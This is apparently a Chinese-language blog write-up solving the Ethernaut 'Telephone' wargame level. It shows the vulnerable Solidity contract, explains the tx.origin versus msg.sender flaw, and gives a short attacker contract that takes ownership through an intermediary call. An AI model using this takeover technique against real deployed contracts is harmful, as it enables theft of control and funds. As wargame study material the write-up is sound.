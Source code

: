 ```
Claim ownership of the contract below to complete this level.

  Things that might help

See the "?" page above, section "Beyond the console"
```





```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```



就是先前看的 tx.origin的问题？



我们通过合约Attack直接调用Telephone的构造函数的话，owner是归谁？

```
本關主要是為了指出tx.origin跟msg.sender的分別，當以智能合約呼叫智能合約時，msg.sender在被呼叫智能合約中，會是呼叫者智能合約的地址，而tx.origin則是最初呼叫智能合約的個人錢包地址。
```



所以我们通过attack call telephone时，第一步的constructor后，owner是telephone合约的，而我们执行完 changeOwner后，owner就会变成 attacker了~



写好合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    address levelInstance;
    
    constructor(address _levelInstance)  {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```



填入levelInstance的地址，deploy。

![image-20250228212614230](./Telephone/images/image-20250228212614230.png)



然后claim即可。

此时查看题目合约的owner：

![image-20250228212744904](./Telephone/images/image-20250228212744904.png)





但现在submit instance的gas费用怎么这么高啊？？？![image-20250228213032246](./Telephone/images/image-20250228213032246.png)



。。。